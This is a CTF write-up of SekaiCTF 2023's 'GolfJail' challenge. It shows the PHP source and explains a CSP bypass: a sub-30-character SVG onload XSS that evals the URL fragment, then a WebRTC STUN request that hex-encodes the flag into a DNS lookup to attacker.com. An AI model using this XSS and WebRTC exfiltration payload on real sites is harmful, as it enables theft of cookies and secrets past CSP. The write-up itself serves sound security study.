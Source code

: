 ## GolfJail (16 solves) -- [strellic](https://twitter.com/Strellic_)
#### `CSP Bypass` and `XSS`

In this challenge, the source code to analyze is really small. 
Although, as solves illustrates, is a hard challenge.

#### Code Analysis

```php
<?php
    header("Content-Security-Policy: default-src 'none'; frame-ancestors 'none'; script-src 'unsafe-inline' 'unsafe-eval';");
    header("Cross-Origin-Opener-Policy: same-origin");

    $payload = "🚩🚩🚩";
    if (isset($_GET["xss"]) && is_string($_GET["xss"]) && strlen($_GET["xss"]) <= 30) {
        $payload = $_GET["xss"];
    }

    $flag = "SEKAI{test_flag}";
    if (isset($_COOKIE["flag"]) && is_string($_COOKIE["flag"])) {
        $flag = $_COOKIE["flag"];
    }
?>
<!DOCTYPE html>
<html>
    <body>
        <iframe
            sandbox="allow-scripts"
            srcdoc="<!-- <?php echo htmlspecialchars($flag) ?> --><div><?php echo htmlspecialchars($payload); ?></div>"
        ></iframe>
    </body>
</html>
```

#### Chall Solution 

The solution comprises three distinct pieces of knowledge that we need to possess beforehand.

- Iframe `srcdoc` allow HTML Entities.
- `WebRTC` to bypass Content-Security-Policy (`CSP`) ([github open issue](https://github.com/w3c/webappsec-csp/issues/92)).
- Techniques for creating a tiny payload (length<30 restriction).

Basically, the final solution involves deploying a tiny payload that executes fragments of the URL (`http://example.com/?xss=payload#fragment`) where we inserted our payload. This technique enables us to bypass the length restriction. Subsequently, we can employ WebRTC to exfiltrate the flag.

The payload to execute the fragment of the url is: `<svg/onload=eval(`'`+baseURI)>`. `baseURI` will return the full url, and implicitly calls `document.baseURI`. In order to have a valid JS code we need to convert the url to a valid code. For doing the that, the easiest way is to wrap the url as a string. So if we add the `'` before the `baseURI` and in the fragment we do something similar to `#';PAYLOAD`, the url will be wrapped. To sum up, our payload will look like: `http://vuln.webpage/?xss=<svg/onload=eval(`'`+baseURI)>#';console.log("EXECUTED!");`.  

Now, that we can execute code, we need to create a WebRTC connection to exfiltrate the flag. In this final part, there was a tricky part for special characters in the DNS request. The final payload from [Antonius writeup](https://blog.antoniusblock.net/posts/golfjail/) for the WebRTC connection was: `pc=new RTCPeerConnection({"iceServers":[{"urls":["stun:"+document.firstChild.data.substring(7,document.firstChild.data.length-2).split("").map(x=>x.charCodeAt(0).toString(16)).join("").substr(0,62)+"."+"attacker.com"]}]});pc.createOffer({offerToReceiveAudio:1}).then(o=>pc.setLocalDescription(o));
`.

#### Writeups:
- [Official 'writeup'](https://github.com/project-sekai-ctf/sekaictf-2023/blob/main/web/golf-jail/solution/solve.txt).
- [Antonius writeup](https://blog.antoniusblock.net/posts/golfjail/).
- [Maitai's writeup](https://leonsirio.github.io/2023/08/29/sekai23-golf-jail.html).
